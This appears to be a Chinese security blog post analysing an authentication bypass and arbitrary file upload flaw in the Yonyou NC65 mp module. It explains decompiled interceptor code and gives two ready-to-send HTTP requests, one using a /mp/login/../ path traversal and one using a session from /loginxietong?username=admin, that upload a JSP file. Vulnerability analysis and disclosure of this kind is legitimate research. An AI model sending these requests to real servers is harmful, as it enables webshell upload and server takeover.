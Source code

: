 

# 用友 NC mp 模块文件上传漏洞分析 - 先知社区

用友 NC mp 模块文件上传漏洞分析

- - -

## 漏洞描述

通过 mp 模块进行任意文件上传，从而上传 webshell 实现控制服务器。

## 影响版本

用友 NC65

## 漏洞分析

配置文件`hotwebs/mp/WEB-INF/spring-mvc.xml`

拦截器

```plain
<mvc:interceptors>
    <mvc:interceptor>
        <mvc:mapping path="/**" />
        <bean id="loginInterceptor" class="com.yonyou.uap.mp.interceptor.LoginInterceptor" />
    </mvc:interceptor>
</mvc:interceptors>
```

在 \\hotwebs\\mp\\WEB-INF\\lib\\uap.mp.core-0.1.0.jar

```plain
public boolean preHandle(HttpServletRequest request, HttpServletResponse response, Object handler) throws Exception {
    HttpSession session = request.getSession();
    Object logined = session.getAttribute("user_logined");
    String url = request.getRequestURL().toString();
    if (!url.endsWith("mp/") && !url.endsWith("mp")) {
        if (url.endsWith("index.html")) {
            if (logined == null) {
                response.sendRedirect(request.getContextPath() + "/login.html");
                return false;
            } else {
                return true;
            }
        } else if (!(handler instanceof HandlerMethod)) {
            return true;
        } else {
            HandlerMethod handler2 = (HandlerMethod)handler;
            ResponseBody json = (ResponseBody)handler2.getMethodAnnotation(ResponseBody.class);
            String msg = "";
            boolean flag = false;
            logger.info(">>>: " + url);
            String[] arr$ = IGNORE_URI;
            int len$ = arr$.length;

            for(int i$ = 0; i$ < len$; ++i$) {
                String s = arr$[i$];
                if (url.contains(s)) {
                    flag = true;
                    break;
                }
            }

            if (!flag) {
                msg = this.autoLogin(request);
                if (logined == null) {
                    msg = StringUtils.isNotEmpty(msg) ? msg : "<a href='/mp/logout' class='tips_login'>您未登录或长时间未操作,请先登录<a/>";
                    if (null == json) {
                        if (url.indexOf("indexforportal") >= 0) {
                            response.sendRedirect("/mp?indexforportallogin=portallogin");
                        } else {
                            response.sendRedirect("/mp");
                        }
                    } else {
                        MPUtils.sendResponseMsg(response, false, msg);
                    }
                } else {
                    flag = true;
                }
            }

            return flag;
        }
    } else if (logined == null) {
        response.sendRedirect(request.getContextPath() + "/login.html");
        return false;
    } else {
        return true;
    }
}
```

首先通过`request.getRequestURL().toString()`拿到 url 路径（不带参数），如果 url 不是以`mp/`和`mp`结尾，进入 if，

`if (url.endsWith("index.html"))`判断是否登录，登陆状态不拦截，否则拦截。

`else if (!(handler instanceof HandlerMethod))` HandlerMethod 是 Spring MVC 中用于表示控制器方法的类，如果请求的不是一个控制器方法，那么放行。正常来说我们请求接口是某个特定的控制器，所以一般在未登录状态下，请求后端接口时，会进入 else 循环，

```plain
HandlerMethod handler2 = (HandlerMethod)handler;
ResponseBody json = (ResponseBody)handler2.getMethodAnnotation(ResponseBody.class);
```

尝试从该方法上获取 `@ResponseBody` 注解的信息。如果方法上存在 `@ResponseBody` 注解，它将返回 `@ResponseBody` 注解的实例，否则将返回 `null`。比如说 json 形式。

```plain
private static final String[] IGNORE_URI = new String[]{"/initcfg", "/login", "/index", "/automsg", "/loginxietong", "/loginportal", "/signportal", "/loginportaldetail", "/loginportalmobile"};
```

接下来在`url.contains(s)`会判断 url 中是否存在`IGNORE_URI`中的内容，如果包含，将 flag 设置为 true，跳过 `if (!flag)` 最终放行 `return flag;`。

那么我们如果构造 url `/mp/login/../xxxx`（假设 xxx 为某控制器方法），在 tomcat 处理中会将 url 处理为 `/mp/xxxx`，而`request.getRequestURL()`和`request.getRequestURI()`，这些危险字符并不会自动剔除掉，这里又符合 上边的流程导致鉴权被绕过。当然 `login` 可换成 `IGNORE_URI`数组中的任意内容

后续在控制器方法中找到 `UploadFileServlet::doPost`，恰好可上传任意文件  
[![](assets/1702521001-aace206d5732a41c9fea71b5b57ea9c2.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231211174121-70f7dc9c-9809-1.png)

也可以配合`/mp/loginxietong?username=admin`直接获取 session，然后利用拿到的凭据通过鉴权。

```plain
@ResponseBody
@RequestMapping(
    value = {"/loginxietong"},
    method = {RequestMethod.GET}
)
public ModelAndView login(@RequestParam("username") String username, HttpServletRequest request) {
    HttpSession session = request.getSession();
    SessionUser user = new SessionUser();
    user.setUserCode(username);
    user.setAdmin(false);
    user.setName(username);
    session.setAttribute("user_logined", user);
    logger.info("协同用户登录===>" + username);
    return new ModelAndView("redirect:/indexforxietong.html");
}
```

## 漏洞复现

绕过鉴权

```plain
POST /mp/login/../uploadControl/uploadFile HTTP/1.1
Host: host
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryoDIsCqVMmF83ptmp
Content-Length: 314

------WebKitFormBoundaryoDIsCqVMmF83ptmp
Content-Disposition: form-data; name="file"; filename="test.jsp"
Content-Type: application/octet-stream

test content
------WebKitFormBoundaryoDIsCqVMmF83ptmp
Content-Disposition: form-data; name="submit"

上传
------WebKitFormBoundaryoDIsCqVMmF83ptmp
```

路径是 `` `/mp/uploadFileDir/test.jsp ``

另一种方法：

先获取 cookie：url+/mp/loginxietong?username=admin

```plain
POST /mp/uploadControl/uploadFile HTTP/1.1
Host: host
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: JSESSIONID=0884AE37CCD3416B96C5546D03E67F10.server; mp_name=admin;JSESSIONID=F5E62B60F069DA492605F276E527A71C.server
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryoDIsCqVMmF83ptmp
Content-Length: 314

------WebKitFormBoundaryoDIsCqVMmF83ptmp
Content-Disposition: form-data; name="file"; filename="test.jsp"
Content-Type: application/octet-stream

test content
------WebKitFormBoundaryoDIsCqVMmF83ptmp
Content-Disposition: form-data; name="submit"

上传
------WebKitFormBoundaryoDIsCqVMmF83ptmp
```

## 漏洞修复

打相关补丁即可。  
[https://security.yonyou.com/#/noticeInfo?id=342](https://security.yonyou.com/#/noticeInfo?id=342)
